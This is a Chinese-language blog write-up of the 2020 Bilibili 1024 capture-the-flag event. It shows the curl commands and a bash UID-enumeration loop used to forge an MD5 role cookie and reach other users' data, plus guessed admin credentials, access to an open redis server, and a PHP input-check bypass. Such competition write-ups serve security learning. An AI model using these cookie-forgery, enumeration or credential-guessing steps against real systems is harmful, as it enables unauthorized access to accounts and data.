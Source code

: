 ```yaml
---
title: Bilibili 1024 节 CTF Write Up
date: 2020-10-26 18:02:08
updated: 2020-10-26 18:02:08
categories:
  - 技术
tags:
  - CTF
  - Bilibili
feature: https://vip1.loli.io/2020/12/01/cZoPxLHXlkFSjrt.jpg
---
```


比赛地址： <https://security.bilibili.com/sec1024/>

## T1：页面的背后是什么？

~~F12 解决一切问题~~

![](https://vip2.loli.io/2020/11/28/XrLpIf2OHs4YAxJ.png)

## T2：真正的秘密只有特殊的设备才能看到

改下 UA 就行了，轻松到手

![](https://vip2.loli.io/2020/11/28/WPLCUHNYiE2nFwJ.png)

![](https://vip2.loli.io/2020/11/28/83GrjFbTwJf1BHn.png)

## T3：密码是啥？

看了看源码，没啥思路，最后随便试了试 `admin` `root` `bilibili` 什么的，竟然是对的。

- 用户名 `admin`
- 密码 `bilibili`

另外，你告诉我什么是 **falg** ？

![](https://vip1.loli.io/2020/11/28/eg9kBtR1aQizGYE.png)

## T4：对不起，权限不足～

第一次访问：

![](https://vip1.loli.io/2020/11/28/roVjXTfs4v8ibP5.png)

第二次访问：

![](https://vip1.loli.io/2020/11/28/RpEsGn8c9KY16MH.png)

查看源码可以发现有个 API 请求，查看请求数据得到以下信息。

![](https://vip1.loli.io/2020/11/28/nhF7pCTQsVYxKdj.png)

role 里面的东西，贴进谷歌一搜就知道它是 `user` 的 MD5 。

和超级管理员相关的名字相信大家都知道，无非就是 `admin` `Administrator` `root` 之类的东西。

挨个试，最后发现 `Administrator` 是正确的。

```shell
curl "http://45.113.201.36/api/ctf/4" --cookie "role=7b7bc2512ee1fedcd76bdc68926d4f7b; session=***;"
```

![](https://vip1.loli.io/2020/11/28/gEhkmTJrnaoMwPv.png)

## T5：别人的秘密

![](https://vip1.loli.io/2020/11/28/c4BjYs3nVuCpxmH.png)

发现有个 API，还有个 UID。

最开始没想到需要从代码里面的"初始 UID"开始扫，浪费了我好多时间。

```shell
for ((i=100336889;$i<9999999999;i=($i+1))); do echo -e "[$i] \c" && curl "http://45.113.201.36/api/ctf/5?uid=${i}" -H 'User-Agent: bilibili Security Browser' -H 'Cookie: session=*****; role=ee11cbb19052e40b07aac0ca060c23ee' ; done
```

![](https://vip1.loli.io/2020/11/28/m1Hr4u8FOJe7ycI.png)

## T6~T10：结束亦是开始，接下来的旅程，需要少年自己去探索啦～

先扫了扫端口，发现有个 redis

![](https://vip2.loli.io/2020/11/28/E29tLxSiC6Qzn5O.png)

```shell
redis-cli -h 120.92.151.189 -p 6379
```

登上去看看，发现了第八题的 flag 。

![](https://vip1.loli.io/2020/11/28/Oo5vyeEsChmSt2H.png)

然后爆破下目录

![](https://vip1.loli.io/2020/11/28/QEnxZsg8FpiOKwm.png)

有个 test.php ，访问下发现是个 JSfuck 加密，丢进浏览器里面解密下

![](https://vip1.loli.io/2020/11/28/G7TWPndrhqBmvAI.png)

程序员最多的地方，那就肯定是 Github 了。

然后找到了一个仓库 [interesting-1024/end](https://github.com/interesting-1024/end)

有个 `end.php`

```php
<?php

//filename end.php

$bilibili = "bilibili1024havefun";

$str = intval($_GET['id']);
$reg = preg_match('/\d/is', $_GET['id']);

if(!is_numeric($_GET['id']) and $reg !== 1 and $str === 1){
    $content = file_get_contents($_GET['url']);

    //文件路径猜解
    if (false){
        echo "还差一点点啦～";
    }else{
        echo $flag;
    }
}else{
    echo "你想要的不在这儿～";
}
?>
```

然后需要构造出一个 符合 `!is_numeric($_GET['id']) and preg_match('/\d/is', $_GET['id']) !== 1 and intval($_GET['id']) === 1` 的请求即可。

![](https://vip1.loli.io/2020/11/28/mCIevr1HSMBpkdi.png)

可以得到一个图片的链接 `http://45.113.201.36/blog/imgs/bilibili_224a634752448def6c0ec064e49fe797_havefun.jpg`

![](https://vip2.loli.io/2020/11/28/iXEgYzjPtH2NhQw.png)

这个图片的末尾就是第十个 flag 了（图中标蓝的地方）。
